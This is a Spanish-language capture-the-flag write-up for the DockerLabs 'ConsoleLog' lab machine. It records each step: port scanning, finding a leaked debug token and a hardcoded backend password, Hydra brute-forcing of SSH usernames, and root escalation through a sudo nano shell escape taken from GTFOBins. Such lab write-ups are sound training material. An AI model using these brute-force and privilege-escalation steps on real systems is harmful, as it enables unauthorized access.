 # Write-up: ConsoleLog

**Sitio: DockerLabs**  
**Dificultad: Fácil**  
**Fecha: 22/07/2025**  
**Aprendizaje:**  
• Reforzar conocimientos de la herramienta `.

---

## 1 - Recopilación de información:  

> sudo nmap -p- -sSV -O --open --min-rate 5000 -vvv -n -Pn 172.17.0.2  

```
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.61 ((Debian))
3000/tcp open  http    syn-ack ttl 64 Node.js Express framework
5000/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
```
`OS details`: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)

---

## 2 - Se entra a la página web y aparece un mensaje de bienvenida y un botoncito.  

---

## 3 - Reviso el código fuente:  

```
<!DOCTYPE html>
<html>
<head>
    <title>Mi Sitio</title>
    <script src="authentication.js"></script>
</head>
<body>
    <h1>Bienvenido a Mi Sitio</h1>
    <button onclick="autenticate()">Boton en fase beta</button>
</body>
</html>
```
### Luego voy al .js llamado "autentication" y me arroja esto:  

```
function autenticate() {
    console.log("Para opciones de depuracion, el token de /recurso/ es tokentraviesito");
}
```

Básicamente el botón activa la función del .js

---

## 4 - Enumeración de directorios:  

> gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -q -b 404,403

`/index.html`           (Status: 200) [Size: 234] => el principal
`/backend`              (Status: 301) [Size: 310] [--> http://172.17.0.2/backend/]

```
[PARENTDIR]	Parent Directory	 	- 	 
[DIR]	node_modules/	2024-07-29 12:41 	- 	 
[ ]	package-lock.json	2024-07-29 12:41 	25K	 
[ ]	package.json	2024-07-29 12:41 	271 	 
[TXT]	server.js	2024-07-29 13:00 	456 	
```

### Entro a cada archivo y me arrojan:  

• `server.js` ↓  

```
const express = require('express');  
const app = express();  

const port = 3000;  

app.use(express.json());  

app.post('/recurso/', (req, res) => {  
    const token = req.body.token;  
    if (token === 'tokentraviesito') {  
        res.send('lapassworddebackupmaschingonadetodas');  
    } else {  
        res.status(401).send('Unauthorized');  
    }
});  

app.listen(port, '0.0.0.0', () => {  
    console.log(`Backend listening at http://consolelog.lab:${port}`);  
});
```
• `package.json` ↓  

```	
name	"backend"  
version	"1.0.0"  
description	""  
main	"index.js"  
scripts	  
test	'echo "Error: no test specified" && exit 1'  
keywords	[]  
author	""  
license	"ISC"  
dependencies	  
express	"^4.19.2"  
```

• `package-lock.json` ↓   

Información general de node.js  

• `node_modules` ↓  

### Módulos de node.js  


`/javascript`           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/] => nada  

---

5 - Leyendo la info obtenida, es obvio que la contraseña del backend es "lapassworddebackupmaschingonadetodas" por la que se usa para hacer fuerza bruta con Hydra, pero si se quisiera confirmar si la contraseña es esa y leyendo la info obtenida hasta el momento, con un curl se podría verificar:  

• curl -X POST -H "Content-Type: application/json" -d '{"token": "tokentraviesito"}' http://172.17.0.2:3000/recurso/  

• hydra -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas -V -f -t 16 ssh://172.17.0.2:5000  

user: `lovely`   
password: `lapassworddebackupmaschingonadetodas`  

---

6 - Entro por SSH:  

• ssh -l lovely 172.17.0.2 -p 5000  

pass: `lapassworddebackupmaschingonadetodas`  

---

7 - Una vez dentro:  

• sudo -l  

`(ALL) NOPASSWD: /usr/bin/nano`  

• ls -la  

```
drwx------ 1 lovely lovely 4096 Jul 30  2024 .  
drwxr-xr-x 1 root   root   4096 Jul 29  2024 ..  
-rw------- 1 lovely lovely   13 Jul 30  2024 .bash_history  
-rw-r--r-- 1 lovely lovely  220 Jul 29  2024 .bash_logout  
-rw-r--r-- 1 lovely lovely 3526 Jul 29  2024 .bashrc  
-rw-r--r-- 1 lovely lovely  807 Jul 29  2024 .profile  
```

•  find / -perm -4000 -type f 2>/dev/null  

```
/usr/bin/su  
/usr/bin/chfn  
/usr/bin/newgrp  
/usr/bin/gpasswd  
/usr/bin/passwd  
/usr/bin/umount  
/usr/bin/mount  
/usr/bin/chsh  
/usr/bin/sudo  
/usr/bin/nano  
/usr/lib/openssh/ssh-keysign  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
```

---

8 - Veo que puedo ejecutar el editor 'nano' como sudo así que proceso a explotar eso apoyándome en GTFOBins:  

A - sudo nano  
b - CTRL + R  
C - CTRL + X  
D - reset; sh 1>&0 2>&0  
> E - whoami = `root`  

